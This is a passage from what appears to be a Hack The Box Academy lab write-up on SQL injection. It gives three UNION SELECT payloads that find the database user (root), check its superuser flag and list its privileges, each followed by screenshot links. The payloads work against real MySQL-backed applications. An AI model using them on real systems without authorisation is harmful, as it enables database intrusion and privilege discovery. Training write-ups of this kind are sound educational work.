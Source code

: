 _Hint: Once you identify the name of the imported configuration file, try to read the source of these files._

Like we saw in a previous question, we can use `user()` to see which user is running the database, which means it is the DBA (Data Base Administrator).

Payload: `cn' UNION SELECT 1, user(), 3, 4-- -`

[![](https://github.com/DjikstraCS/CTF-Write-Ups/raw/main/Hack%20The%20box/Academy/attachments/Pasted%20image%2020220602120341.png)](https://github.com/DjikstraCS/CTF-Write-Ups/blob/main/Hack%20The%20box/Academy/attachments/Pasted%20image%2020220602120341.png)

Looks like the database is running as `root`.

Now we need to find out what privileges the user has.

Payload: `cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -`

[![](https://github.com/DjikstraCS/CTF-Write-Ups/raw/main/Hack%20The%20box/Academy/attachments/Pasted%20image%2020220602120501.png)](https://github.com/DjikstraCS/CTF-Write-Ups/blob/main/Hack%20The%20box/Academy/attachments/Pasted%20image%2020220602120501.png)

`Y` means `yes` confirming that we have superuser privileges.

We need to dig a little deeper into our privileges.

Payload: `cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -`

[![](https://github.com/DjikstraCS/CTF-Write-Ups/raw/main/Hack%20The%20box/Academy/attachments/Pasted%20image%2020220602121644.png)](https://github.com/DjikstraCS/CTF-Write-Ups/blob/main/Hack%20The%20box/Academy/attachments/Pasted%20image%2020220602121644.png)
